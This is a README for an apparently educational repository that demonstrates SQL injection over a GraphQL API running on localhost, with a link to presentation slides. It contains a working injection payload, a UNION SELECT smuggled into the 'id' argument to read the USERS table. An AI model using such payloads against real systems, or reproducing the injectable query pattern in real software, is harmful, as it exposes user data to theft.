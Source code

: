 # GraphQL SQL injection example

This repository provides a very simple example of SQL injection over GraphQL.

## Install and start

Checkout the code and run:
```
npm install
npm start
```

## Attack
Go on http://localhost:8080/graphql

Run the following query
```graphql
query {
  post(id: "1") {
    id
    title
    content
  }
}
```
This will return an element from the database
To perform an SQL injection that will fetch something from the USERS table, run
```graphql
query {
  post(id: "1 UNION SELECT * FROM USERS") {
    id
    title
    content
  }
}
```

## Slides

https://www.icloud.com/keynote/0VBxVw2J151pVGKCWz9ClH8Fw#GraphQL

